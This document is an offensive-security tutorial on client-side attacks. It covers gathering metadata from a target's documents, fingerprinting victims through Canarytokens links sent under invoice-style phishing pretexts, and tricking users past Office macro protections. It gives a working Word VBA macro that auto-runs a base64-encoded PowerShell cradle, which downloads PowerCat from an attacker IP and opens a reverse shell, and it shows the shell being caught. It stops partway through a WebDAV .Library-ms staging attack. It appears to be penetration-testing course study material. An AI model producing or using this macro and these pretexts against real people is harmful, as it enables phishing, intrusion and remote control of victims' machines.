# Client-Side Attacks

Phishing often leverages client-side attacks. This type of attack works by delivering malicious files directly to users. Once they execute files on their machine, you can get a foothold in the internal network. Client-side attacks often exploit weaknesses or functions in local software and applications such as browsers, OS components, or office programs. To execute malicious code on the client's systen, you typically need to persuade or deceive the target user.

Client-side attacks often use specific delivery mechanisms and payload combinations, including email attachments or links to malicious websites or files. You could even leverage more advanced mechanisms such as [USB dropping](https://www.tripwire.com/state-of-security/featured/does-dropping-malicious-usb-sticks-really-work-yes-worryingly-well/) or [watering hole attacks](https://en.wikipedia.org/wiki/Watering_hole_attack).

When choosing an attack vector and payload, you must first perform recon to determine the OS of the target as well as any installed applications. This is a critical first step, as your payload must match the capability of the target. For example, if the target is running the Windows OS, you can use a variety of client-side attacks like malicious JScript code executed through the Windows Script Host or .lnk shortcut files pointing to malicious resources. If the target has installed Microsoft Office, you could leverage documents with embedded malicious macros.

## Target Recon

### Information Gathering

One approach is to inspect the metadata tags of publicly available documents associated with the target organization. Although this data can be manually sanitized, it often is not. These tags can include a variety of information about a document including author, creation date, the name and version of the software used to create the document, OS of the client, and much more.

In some cases, this information is stored explicitly in the metadata, and in some cases, it is inferred, but either way the information can be quite revealing, helping you to build an accurate profile of software installed on clients in a target organization. Bear in mind that your findings may be outdated if you are inspecting older documents. In addition, different branches of the organization may use slightly different software.

To get some documents for metadata analysis you can use Google dorks like `site:example.com filetype:pdf`.

If you want to interact with the target's web site, you could also use tools like `gobuster` with the `-x` parameter to search for specific file extensions on the target's web site. This is noisy and will generate log entries on the target. You can also simply browse the target website for other specific information useful in a client-side attack.

Once you got a file you can use `exiftool` to display the metadata. Provide the arguments `-a` to display duplicated tags and `-u` to display unknown tags with the filename:

```bash
kali@kali:~$ cd Downloads 

kali@kali:~/Downloads$ exiftool -a -u brochure.pdf 
ExifTool Version Number         : 12.41
File Name                       : brochure.pdf
Directory                       : .
File Size                       : 303 KiB
File Modification Date/Time     : 2022:04:27 03:27:39-04:00
File Access Date/Time           : 2022:04:28 07:56:58-04:00
File Inode Change Date/Time     : 2022:04:28 07:56:58-04:00
File Permissions                : -rw-------
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 4
Language                        : en-US
Tagged PDF                      : Yes
XMP Toolkit                     : Image::ExifTool 12.41
Creator                         : Stanley Yelnats
Title                           : Mountain Vegetables
Author                          : Stanley Yelnats
Producer                        : Microsoft® PowerPoint® for Microsoft 365
Create Date                     : 2022:04:27 07:34:01+02:00
Creator Tool                    : Microsoft® PowerPoint® for Microsoft 365
Modify Date                     : 2022:04:27 07:34:01+02:00
Document ID                     : uuid:B6ED3771-D165-4BD4-99C9-A15FA9C3A3CF
Instance ID                     : uuid:B6ED3771-D165-4BD4-99C9-A15FA9C3A3CF
Title                           : Mountain Vegetables
Author                          : Stanley Yelnats
Create Date                     : 2022:04:27 07:34:01+02:00
Modify Date                     : 2022:04:27 07:34:01+02:00
Producer                        : Microsoft® PowerPoint® for Microsoft 365
Creator                         : Stanley Yelnats
```

This generated a lot of output. For you, the most important information includes the file creation date, last modified date, the author's date, the OS, and the application used to create the file.

The _Create Date_ and _Modify Date_ sections reveal the relative age of the document. Given that these dates are relatively recent you have a high level of trust that this is a good source of metadata.

The _Author_ section reveals the name of an internal employee. You could use your knowledge of this person to better establish a trust relationship by dropping their name casually into a targeted email or phone conversation. This is helpful if the author maintains a relatively small public profile.

The output further reveals that the PDF was created with Microsoft PowerPoint for Microsoft 365. This is crucial information for you to plan your client-side attack since you now know that the target uses Microsoft Office and since there is no mention of "macOS" or "for Mac" in any of the metadata tags, it's very probable that Windows was used to create this document.

You can now leverage client-side attack vectors ranging from Windows system components to malicious Office documents.

### Client Fingerprinting

Assume you previously extracted a promising target's email address using [theHarvester](https://github.com/laramies/theHarvester). As a client-side attack you could use an [HTML Application](https://msdn.microsoft.com/en-us/library/ms536496(VS.85).aspx) attached to an email to execute code in the context of Internet Explorer and to some extent, Microsoft Edge.

Before you proceed, you need to confirm that your target is running Windows and has Internet Explorer or Microsoft Edge enabled.

You'll use [Canarytokens](https://canarytokens.com/), a free web service that generates a link with an embedded token that you'll send to the target. When the target opens the link in a browser, you will get information about their browser, IP address, and OS. With this information, you can confirm that the target is running Windows and verify that you should attempt an HTA client-side attack.

Before you create your tracking link, think of pretexts you can use in a situation like this. A pretext frames a situation in a specific way. In many situations, you can't just ask the target to click a link in an arbitrary email. Therefore, you should try to create context, perhaps by leveraging the target's job role.

For example, assume your target is working in a finance department. In this case, you could say you received an invoice, but it contains a financial error. You then offer a link that you say opens a screenshot of the invoice with the error highlighted. This is, of course, the Canarytoken link. When the target clicks the link, the IP logger creates a fingerprint of the target providing you the necessary information to prepare your client-side attack. The target will always receive a blank page when they try to click the link.

With your pretext in place, create your link in Canarytokens by loading the token generation page in your browser.



The web page allows you to select the kind of tracking token you want to create. You must enter an email address to get alerts about the tracking token or provide a webhook URL. For this example, you'll select "Web bug / URL token" from the dropdown menu, enter `https://example.com` as webhook URL, then enter `Fingerprinting` as the comment. After you enter this information, you'll click on "Create my Canarytoken".



A new page with a blue window appears stating that your web token is now active:



This page contains the tracking link you can use to fingerprint targets. It also provides ideas on how to get a target to click the link.

Next, click on "Manage this token", which is located on the upper-right corner of the page. This will bring you the token settings.



The token has not been triggered yet, but this is to be expected since you just created it. For this example, you keep the default settings, since you are simply fingerprinting the target and not embedding the token in a web application or web page.

Next, click on "History" in the upper right corner. The History page shows you all visitors that clicked your Canarytoken link in the information about the victim's system. As of now the list is empty.



Assume you have convinced your victim, in the context of your pretext, to visit the Canarytoken link via email. As soon as the victim clicks your link, they get a blank page in their browser. At the same time, a new entry appears in your history list:



A map on the left side shows you the geographical location of the victim. You can click on the entry to get more information.



You have the option to download this as either a .CSV or .json file.

The upper half of the detailed view provides you information about the victim's location and attempts to determine the organization name. The user agent sent by the victim's browser is also displayed. From the user agent itself you can infer the target's OS and browser. However, the user agent can be modified and is not always a reliable source of information.

In this example, the victim's user agent implies that they use the Chrome browser on an Intel Mac OS 10.15.7 system. You could also use an [online user agent parser](https://explore.whatismybrowser.com/useragents/parse/), which interprets the user agent for you and offers you a more user-friendly result. This information does not come from the user agent, but from JavaScript fingerprinting code embedded in the Canarytoken web page. This information is more precise and reliable than the information from the user agent.

Scroll down to the "Geo info" area.



The Canarytoken service also offers other fingerprint techniques.



The menu provides options to embed a Canarytoken in a Word document or PDF file, which would provide you information when a victim opens the file. Furthermore, you could also embed it into an image, which would inform you when it is viewed.

> [!TIP]
> You could also use an online IP logger like [Grabify](https://grabify.link/) or JavaScript fingerprinting libraries such as [fingerpint.js](https://github.com/fingerprintjs/fingerprintjs).

## Exploiting Microsoft Office

### Preparing the Attack

First, you must consider the delivery method of your document. Since malicious macro attacks are well-known, email providers and spam filter solutions often filter out all Microsoft Office documents by default. Therefore, in many situations you can't just send the malicious document as an attachment. Furthermore, most anti-phishing training programs stress the danger of enabling macros in an emailed Office document.

To deliver your payload and increase the chances that the target opens the document, you could use a pretext and provide the document in another way, like a download link.

If you successfully manage to deliver the Office document to your target via email or download link, the file will be tagged with the Mark of the Web. Office documents tagged with MOTW will open in Protected View, which disables all editing and modification settings in the document and blocks the execution of macros or embedded objects. When the victim opens the MOTW-tagged document, Office will show a warning with the option to "Enable Editing".



When the victim enables editing, the protected view is disabled. Therefore, the most basic way to overcome this limitation is to convince the target to click the "Enable Editing" button by, for example, blurring the rest of the document and instructing them to click the button to _unlock_ it.

You could also rely on other macro-enabled Microsoft Office programs that lack Protected View, like Microsoft Publisher, but this is less frequently installed.

Finally, you must consider [Microsoft's announcement](https://techcommunity.microsoft.com/t5/microsoft-365-blog/helping-users-stay-safe-blocking-internet-macros-by-default-in/ba-p/3071805) that discusses blocking macros by default. This change affects Access, Excel, PowerPoint, Visio, and Word. Microsoft implemented this in most Office versions such as Office 2021 all the way back to Office 2013. The implementation dates for the various channels are listed in the corresponding [Microsoft Learn page](https://learn.microsoft.com/en-us/deployoffice/security/internet-macros-blocked).

The announcement states that macros in files delivered via the Internet may no longer be activated by the click of a button, but by following a more tedious process. For example, when a user opens a document with embedded macros, they will no longer receive the "Enable Content" message.

Instead, they will receive a new, more ominous message with "Learn More" button:



If users click on "Learn more", the resulting [Microsoft web page](https://support.microsoft.com/en-us/topic/a-potentially-dangerous-macro-has-been-blocked-0952faa0-37e7-4316-b61d-5b5ed6024216) will outline the dangers of enabling macros.

Additionally, Microsoft provides instructions on how to unblock the macro by checking "Unblock" under file properties.

As a result of this change, you must convince the user to unblock the file via the checkbox before your malicious macro executes.

### Leveraging Microsoft Word Macros

You'll create a blank Word document with `mymacro` as the file name and save it in the .doc format. This is important because the never .docx file type cannot save macros without attaching a containing template. This means that you can run macros within .docx files but you can't embed or save the macro in the document. In other words, the macro is not persistent. Alternatively, you could also use the .docm file type for your embedded macro.

You also must choose the current document from the drop-down menu in the Macros dialog window. In your case, you will choose Document1 to select your unnamed document. If you do not choose this document, your macro will not be saved to the document but rather to your global template.



After you save the document, you can begin creating your first macro. To get to the macro menu, you'll click on the "View" tab from the menu bar where you will find and click the "Macros" element:



This presents a new window in which you can manage your macros. Enter `MyMacro` as the name in the "Macro Name" section then select the `mymacro` document in the "Macros in" drop-down menu.

Finally, you'll click "Create" to insert a simple macro framework into your document.



This presents the "Microsoft Visual Basic for Applications" window where you can develop your macro from scratch or use the inserted macro skeleton.



Review the provided macro skeleton. The main sub procedure used in your VBA macro begins with the `Sub` keyword and ends with `End Sub`. This essentially marks the body of your macro.

> [!INFO]
> A sub procedure is very similar to a function in VBA. The difference lies in the fact that sub procedures cannot be used in expressions because they do not return any values, whereas functions do.

At this point, your new macro, `MyMacro()`, is simply an empty sub procedure containing several lines beginning with an apostrophe, which marks the start of a single-line comment in VBA.

```
Sub MyMacro()
'
' MyMacro Macro
'
'

End Sub
```

In this example, you'll leverage [ActiveX Objects](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/automat/activex-objects), which provide access to underlying OS commands. This can be achieved with [WScript](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/windows-scripting/at5ydy31(v=vs.84)) through the [Windows Script Host Shell object](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/windows-scripting/aew9yb99(v=vs.84)).

Once you instantiate a Windows Script Host Shell object with `CreateObject` ([_here_](https://docs.microsoft.com/en-us/office/vba/Language/Reference/User-Interface-Help/createobject-function)), you can invoke the `Run` ([_here_](http://www.vbsedit.com/html/6f28899c-d653-4555-8a59-49640b0e32ea.asp)) method for `WScript.Shell` to launch an application on the target client machine. For your first macro, you'll start a PowerShell window. The code for that macro is shown below.

```
Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```

Since Office macros are not executed automatically, you must use the predefined `AutoOpen` macro and `Document_Open` event. These procedures can call your custom procedure and run your code when a Word document is opened. They differ slightly, depending on how Microsoft Word and the document were opened. Both cover special cases which the other one doesn't and therefore you use both.

Your updated VBA code is shown below:

```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```

Next, you'll click on the "Save" icon in the "Microsoft Visual Basic for Applications" window and close the document. After you re-open it, you are presented with a security warning indicating that macros have been disabled. To run your macro, you'll click on "Enable Content".



After you click on "Enable Content" a PowerShell window appears.



In a real-world assessment, your victim must click on "Enable Content" to run your macros, otherwise your attack will fail. In enterprise environments, you can also face a situation where macros are disabled for Office documents in general. Fortunately for you, macros are commonly used in most enterprises.

Wrap this section up by extending the code execution of your current macro to a reverse shell with the help of [PowerCat](https://github.com/besimorhino/powercat). You'll use a base64-encoded [PowerShell download cradle](https://gist.github.com/HarmJ0y/bb48307ffa663256e239) to download PowerCat and start the reverse shell. The encoded PowerShell command will be declared as a String in VBA.

You should note that VBA has a 255-char limit for literal strings and therefore, you can't just embed the base64-encoded PowerShell commands as a single string. This restriction does not apply to strings stored in variables, so you can split the commands into multiple lines and concatenate them.

To do this, you'll click on the "Macros" element in the "View" tab, select "MyMacro" in the list and click on "Edit" to get back to the macro editor. Next, you'll declare a string variable named `Str` with the `Dim` ([_here_](https://docs.microsoft.com/en-us/dotnet/visual-basic/language-reference/statements/dim-statement)) keyword, which you'll use to store your PowerShell download cradle and the command to create a reverse shell with PowerCat. The following listing shows the declaration of the variable and the modified line to run the command stored as a string in the variable.

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```

Next, you'll employ a PowerShell command to download PowerCat and execute the reverse shell. You'll encode the command with base64 to avoid issues with special chars.

> [!CAUTION]
> UTF-16LE is the default char set for base64 encoding that PowerShell supports. If you choose any other char set, your payload won't work.
> 
> You can use: `cat payload | iconv -t UTF-16LE | base64 -w 0`

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```

You can use the following Python script to split the base64-encoded string into smaller chunks of 50 chars and concatenate them into the `Str` variable. To do this, you store the PowerShell command in a variable named `str` and the number of chars for a chunk it `n`. You must make sure that the base64-encoded command does not contain any line breaks after you paste it into the script. A for-loop iterates over the PowerShell command and prints each chunk in the correct format for your macro.

```python
str = "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Having split the base64-encoded string into smaller chunks, you can update your macro:

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```

After you modify your macro, you can save and close the document. Before re-opening it, start a Python3 web server in the directory where the PowerCat script is located. You'll also start a Netcat listener on port 4444.

After double-clicking the document, the macro is automatically executed. Note that the macro security warning regarding the "Enable Content" button is not appearing again. It will only appear again if the name of the document changes.

After the macro is executed, you receive a GET request for the PowerCat script in your Python3 web server and an incoming reverse shell in your Netcat listener.

```bash
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.196] 49768
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\offsec\Documents>
```

Opening the document ran the macro and sent you a reverse shell.

## Abusing Windows Library Files

Windows library files are virtual containers for user content. They connect users with data stored in remote locations like web services or shares. These files have a `.Library-ms` file extension and can be executed by double-clicking them in Windows Explorer.

First, you'll create a Windows library file connecting to a WebDAV share you'll set up. In the first stage, the victim receives a .Library-ms file, perhaps via email. When they double-click the file, it will appear as a regular directory in Windows Explorer. In the WebDAV directory, you'll provide a payload in the form of a .lnk shortcut file for the second stage to execute a PowerShell reverse shell. You must convince the user to double-click your .lnk payload file to execute it.

At first glance, it may seem that you could accomplish this by serving the .lnk file for the second stage with a web server like Apache. The disadvantage is that you would need to provide your web link to the victim. Most spam filters and security technologies analyze the contents of a link for suspicious content or executable file types to download. This means that your links may be filtered before even reaching the victim.

On the other hand, many spam filters and security technologies will pass Windows libraries files directly to the user. When they double-click the file, Windows Explorer displays the contents of the remote location as if it were a local directory. In this case, the remote location is a WebDAV share on your attack machine. Overall, this is a relatively straightforward process and makes it seem as if the user is double-clicking a local file.

### Stage 1: Setting up .library-ms 

To demonstrate this, you'll first set up a WebDAV share on your machine. You'll use [WsgiDAV](https://wsgidav.readthedocs.io/en/latest/index.html) as the WebDAV server to host and serve your files. You can install WsgiDAV using `apt`.

```bash
kali@kali:~$ sudo apt install python3-wsgidav
Reading package lists... Done
...
Setting up python3-wsgidav ...
```

Once WsgiDAV is installed, you'll create the `/home/kali/webdav` directory to use as the WebDAV share that will contain your .lnk file. For now, place a `test.txt` in this directory.

Next, start a WsgiDAV. The first parameter you'll provide is `--host`, which specifies the host to serve from. You'll listen on all interfaces with `0.0.0.0`. Next, you'll specify the listening port with `--port=80` and disable authentication to your share with `--auth=anonymous`. Finally, you'll set the root of the directory of your WebDAV share with `--root /home/kali/webdav/`.

```bash
kali@kali:~$ mkdir /home/kali/webdav

kali@kali:~$ touch /home/kali/webdav/test.txt

kali@kali:~$ wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
Running without configuration file.
17:41:53.917 - WARNING : App wsgidav.mw.cors.Cors(None).is_disabled() returned True: skipping.
17:41:53.919 - INFO    : WsgiDAV/4.0.1 Python/3.9.10 Linux-5.15.0-kali3-amd64-x86_64-with-glibc2.33
17:41:53.919 - INFO    : Lock manager:      LockManager(LockStorageDict)
17:41:53.919 - INFO    : Property manager:  None
17:41:53.919 - INFO    : Domain controller: SimpleDomainController()
17:41:53.919 - INFO    : Registered DAV providers by route:
17:41:53.919 - INFO    :   - '/:dir_browser': FilesystemProvider for path '/usr/lib/python3/dist-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
